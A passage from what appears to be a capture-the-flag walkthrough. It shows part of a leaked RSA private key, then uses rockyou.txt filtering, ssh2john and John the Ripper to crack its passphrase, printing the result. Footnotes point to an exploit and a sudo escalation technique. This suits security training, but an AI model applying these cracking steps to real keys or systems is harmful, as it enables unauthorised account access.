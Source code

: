 ~~~
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
~~~

Let's save the key, modify the keys permissions and se if we can use it to log in as joanna! Partial success, seems that there is some other password and not “ninja” for the key. We can check for how many other password candidates there is in rockyou.txt in the following way: 
~~~
$ cat /usr/share/wordlists/rockyou.txt | grep -i ninja | wc -l
~~~

This gives us 1766 passwords with the word "ninja" in, far to many to try manually. After a bit of googe-fu I found this article[^2] talking about ssh2john to be able to crack the password for the key.

Download ss2john: 
~~~
$ wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
~~~

Running ssh2john: 
~~~
$ python ssh2john.py joanna_rsa > joanna_hash
~~~

Create a wordlist with the word “ninja” from rockyou.txt:
~~~
$ cat /usr/share/wordlists/rockyou.txt | grep -i ninja > list.txt
~~~

Running `john` to crack the hash using the wordlist:
~~~
$ john --wordlist=list.txt joanna_hash
~~~ 

~~~
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna_rsa)
1g 0:00:00:00 DONE (2020-09-16 17:29) 100.0g/s 176500p/s 176500c/s 176500C/s *69flyingninjamonkeys..#1FLUFFYCOCKYNINJA
Session completed
~~~


[^1]: https://www.exploit-db.com/exploits/47691
[^2]: https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/ 
[^3]: https://gtfobins.github.io/gtfobins/nano/#sudo 